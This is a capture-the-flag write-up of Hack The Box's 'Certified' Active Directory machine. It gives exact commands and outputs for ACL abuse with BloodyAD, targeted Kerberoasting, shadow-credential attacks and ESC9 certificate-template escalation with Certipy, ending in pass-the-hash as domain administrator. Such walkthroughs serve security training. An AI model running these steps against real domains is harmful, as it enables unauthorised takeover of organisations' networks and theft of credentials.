







This box is rated medium difficulty on HTB. It involves us enumerating ACLs to pivot between users, eventually landing on the CA_Operator account. Using this operator's privileges to enroll Active Directory Certificates reveals that we can perform ESC9 to impersonate the Administrator and grab their NTLM hash.

## Host Scanning
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns the usual AD things.

```
$ sudo nmap -sCV 10.129.231.186 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-17 02:01 CDT
Nmap scan report for 10.129.231.186
Host is up (0.056s latency).
Not shown: 991 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-03-17 14:01:38Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-17T14:03:00+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Not valid before: 2025-06-11T21:05:29
|_Not valid after:  2105-05-23T21:05:29
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Not valid before: 2025-06-11T21:05:29
|_Not valid after:  2105-05-23T21:05:29
|_ssl-date: 2026-03-17T14:03:00+00:00; +7h00m00s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-03-17T14:03:00+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Not valid before: 2025-06-11T21:05:29
|_Not valid after:  2105-05-23T21:05:29
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-time: 
|   date: 2026-03-17T14:02:24
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.61 seconds
```

Looks like a Windows machine with Active Directory components installed on it. LDAP is also leaking the domain name of `certified.htb` which I'll add to my `/etc/hosts`. Since there are no web servers up, I'll mainly focus on SMB, Kerberos, and LDAP to gather information in attempts to get a foothold on the box.

## SMB Enumeration
This is an assumed breach box, meaning we start off with credentials for a low-level user, `judith.mader:judith09`. I use them to authenticate over SMB and brute force RIDs to get an idea of domain users and groups.



Among the many lines is one that shows an alias for Cert Publishers, along with the ca_manager account which indicates Active Directory Certificate Services (AD CS) may be installed on this system. I run a quick Certipy command to see if Judith is able to enroll certificates, however it seems like she does not have permissions. I'll keep this in mind in case other accounts have access, since any misconfigurations in it are a common way to escalate privileges.

I also save that RID brute output to a file and use an awk command to extract all usernames in order to create a wordlist of valid accounts.

```
$ nxc smb certified.htb -u 'judith.mader' -p 'judith09' --rid-brute > users.txt

$ cat users.txt | awk -F'\\' '{print $2}' | awk '{print $1}' > validusers.txt
```

Mapping AD with Bloodhound
I'd usually AS-REP Roast accounts at this point, but since we start with credentials, I fire up Bloodhound to map the domain as well as any permissions Judith may have.

```
$ bloodhound-python -d certified.htb -ns 10.129.231.186 -u judith.mader -p 'judith09' -c all

$ sudo bloodhound
```

After letting it ingest the JSON files for a bit, I start by enumerating any outbound object control which reveals that Judith has WriteOwner privileges over the Management group.



By following this pattern of who what user or groups have permissions under outbound object control, we find a path towards the CA_Operator user, who should have enrollment rights for AD CS.



Bloodhound gives us easy ways to exploit these permissions by clicking on them and reading through the Linux/Windows Abuse tabs on the right-hand side as they arise.

## Executing Attack Chain to get Shell
The attack chain will go as follows. First we'll use Judith's WriteOwner privileges to add ourselves to the Management group. Then we can perform a targeted Kerberoasting attack against the Management_SVC user in order to grab their plaintext password. Finally, we use that service account's GenericAll permissions over the CA_Operator user to change their password.

### Setting up Permissions
To get started, I use BloodyAD to set ourselves as the owner of the Management group and give us genericAll permissions over it. You can install this tool from their Github repository and may have to create a Python virtual environment to grab all dependencies.

```
--Setting up BloodyAd in python venv--
$ git clone https://github.com/CravateRouge/bloodyAD
$ cd  bloodyAD
$ python3 -m venv venv
$ source venv/bin/activate
$ pip3 install -r requirements.txt

--Setting Judith as owner of Management group--
$ bloodyad -d certified.htb -u 'judith.mader' -p 'judith09' --host dc01.certified.htb set owner management judith.mader
[+] Old owner S-1-5-21-729746778-2675978091-3820388244-512 is now replaced by judith.mader on management

--Giving Judith genericAll over Management group--
$ bloodyad -d certified.htb -u 'judith.mader' -p 'judith09' --host dc01.certified.htb add genericAll management judith.mader
[+] judith.mader has now GenericAll on management
```

Now that we have sufficient permissions over the group, we can add ourselves to it.

```
$ bloodyad --dc-ip 10.129.231.186 -d certified.htb -u 'judith.mader' -p 'judith09' add groupMember "Management" "judith.mader"
[+] judith.mader added to Management
```

### Targeted Kerberoasting Fail
Now that we're apart of this group that is able to manage other users, we must use our new capabilities to perform a targeted Kerberoasting attack on the Management_SVC user.

If you're unaware of this attack vector - Targeted Kerberoasting is an attack where an attacker adds a Service Principal Name (SPN) to a specific user account they control permissions over, then requests a Kerberos service ticket for that SPN so the ticket can be cracked offline to recover the account's plaintext password.

For this step, I'll use ShutdownRrepo's [targetedKerberoast.py script](https://github.com/ShutdownRepo/targetedKerberoast) to take care of the heavy lifting. I should also mention that since we're doing stuff related to Kerberos authentication, we must fix the clock skew error that would arise by syncing our local machine's time with the domain controller's. VMWare likes to override my commands when trying to sync times, so I usually just stop both related services whenever doing these types of exploits.

```
--Stopping my machine's timsyncd processes--
$ sudo systemctl stop systemd-timesyncd
$ sudo systemctl disable systemd-timesyncd
$ sudo systemctl stop chronyd 2>/dev/null
$ sudo systemctl disable chronyd 2>/dev/null

--Set Clock skew to match the DC's--
$ sudo rdate -n certified.htb
```

Now we're able to carry out this attack.

```
--Cloning targeted Kerberoasting repo--
$ git clone https://github.com/ShutdownRepo/targetedKerberoast
$ cd targetedKerberoast

--Executing attack--
$ python3 targetedKerberoast.py -v -d 'certified.htb' -u 'judith.mader' -p 'judith09'
```



As we can see, that returns a KRB5TGS hash for the Management_SVC account which we can send over to Hashcat or JohnTheRipper to find the plaintext variant.



### Adding Shadow Credential
After a bit of waiting, it doesn't actually crack. I wasn't all that hopeful due to service accounts typically having long and complex passwords, but it was still worth a try. Luckily we're not out of options yet. GenericWrite over this account also lets us add shadow credentials to the user in which we'll use to authenticate.

If you're unfamiliar - Shadow credentials refer to abusing the Key Credential Link attribute in Active Directory to add a new authentication key to another user or computer account. This lets an attacker authenticate as that account using certificate-based authentication without knowing its password.

To carry out this attack, I'll use the shadow module within [Certipy](https://github.com/ly4k/Certipy) to add a new credential link attribute, allowing us to verify authenticity with certificates which then attempts to get a TGT. After all is said and done, we're left with an NT hash that can be used in a Pass-The-Hash attack to grab a shell.

```
$ certipy-ad shadow auto -username judith.mader -password judith09 -account management_svc -target certified.htb -dc-ip 10.129.231.186
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '91c77677-13a9-3225-4533-8a5ec50d7c90'
[*] Adding Key Credential with device ID '91c77677-13a9-3225-4533-8a5ec50d7c90' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID '91c77677-13a9-3225-4533-8a5ec50d7c90' to the Key Credentials for 'management_svc'
[*] Authenticating as 'management_svc' with the certificate
[*] Using principal: management_svc@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Restoring the old Key Credentials for 'management_svc'
[*] Successfully restored the old Key Credentials for 'management_svc'
[*] NT hash for 'management_svc': a091c1832bcdd4677c28b5a6a1295584
```

Using [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) to get a foothold on the box allows us to grab the user flag under their Desktop folder and start our goal to escalate privileges towards Administrator.



## Privilege Escalation
Looking back at Bloodhound shows that this service account has GenericAll over the CA_Operator user, who most certainly has access to enroll certificates. That also allows us to add a shadow credential to the operator account, so I repeat the process here.

```
$ certipy-ad shadow auto -username management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -account ca_operator -target certified.htb -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'f5ac7402-4dde-7555-6b4b-a460f7fd1290'
[*] Adding Key Credential with device ID 'f5ac7402-4dde-7555-6b4b-a460f7fd1290' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID 'f5ac7402-4dde-7555-6b4b-a460f7fd1290' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Using principal: ca_operator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': b4b86f45c6018f1b664f70805f45d8f2
```

### Finding Vulnerable AD CS Template
Now that we have an NT hash for the CA_Operator account, we can use it along with Certipy once again to find any vulnerable templates on the domain.

```
$ certipy find -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -dc-ip 10.129.231.186 -vulnerable -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'certified-DC01-CA'
[*] Checking web enrollment for CA 'certified-DC01-CA' @ 'DC01.certified.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : PublishToDs
                                          AutoEnrollment
                                          NoSecurityExtension
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-05-13T15:48:52+00:00
    Template Last Modified              : 2024-05-13T15:55:20+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Full Control Principals         : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFIED.HTB\operator ca
    [!] Vulnerabilities
      ESC9                              : Template has no security extension.
    [*] Remarks
      ESC9                              : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
```

Towards the bottom of the output, we can see that there's a template named CertifiedAuthentication that is potentially vulnerable to ESC9.

### ESC9 PrivEsc
ESC9 (AD CS privilege escalation) is a misconfiguration in Active Directory Certificate Services where certificate templates allow weak or missing restrictions (like no EKU enforcement or improper mapping), enabling attackers to request certificates that can authenticate as other users.

An attacker can abuse this by enrolling a certificate tied to a privileged account (e.g., Administrator) and then using it for authentication via PKINIT (Kerberos), effectively impersonating that user. This results in full domain-level access because certificate-based authentication bypasses password checks, granting administrator privileges without needing the actual credentials.

To exploit this, I first use the Management_SVC account to change the CA_Operator's UPN to match the Administrator's. This is because the service account still has GenericAll over it.

```
$ certipy account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator -dc-ip 10.129.231.186
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
```

Next, I'll request a certificate as the CA_Operator while making sure to specify the template deemed vulnerable.

```
$ certipy req -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.129.231.186
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 5
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

That awards us with a `.pfx` file which holds a certificate and private key for valid authentication as the administrator. Before we try and get a TGT with it, we must first change the CA_Operator's SPN back to the original value. I'm unsure as to why, but leaving it as is will throw a mismatch error between the certificate and user.

```
$ certipy account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb -dc-ip 10.129.231.186
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```

Now all that's left is to authenticate to the DC with it, which grants us the NTLM hash for the domain administrator.

```
$ certipy auth -pfx administrator.pfx -dc-ip 10.129.231.186 -domain certified.htb
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:[REDACTED]
```

Using that in a Pass-The-Hash attack grants us a shell on the box with full privileges over the domain. Grabbing the final flag under their Desktop folder completes this challenge.



That's all y'all, Bloodhound made this box a lot easier than it should've been, but I always enjoy finding these misconfigurations. I hope this was helpful to anyone following along or stuck and happy hacking!
